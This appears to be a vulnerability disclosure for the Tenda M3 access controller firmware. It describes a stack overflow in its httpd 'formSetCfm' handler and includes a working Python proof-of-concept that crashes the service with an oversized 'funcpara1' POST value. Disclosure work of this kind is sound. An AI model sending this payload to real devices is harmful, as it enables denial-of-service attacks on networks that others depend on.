



## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetCfm` function, which can be accessed via the URL `goform/setcfm`



When the POST parameter `funcname` equals "save_list_data", the program will enter if branch at line 67. In this branch, program gets the POST parameter `funcpara1` and `funcpara2` then passed them to the function `sub_45E28`



In this function, program will enter the danger section when the length of `funcpara2` is greater than 4. In this if branch, program copies `funcpara1` to stack buffer by calling function `sprintf` without checking its length.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"funcname": b"save_list_data",
    b"funcpara1": b'A'*0x400,
    b"funcpara2": b'BBBBB'
    
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setcfm", data=data, cookies=cookies)
print(res.content)
```


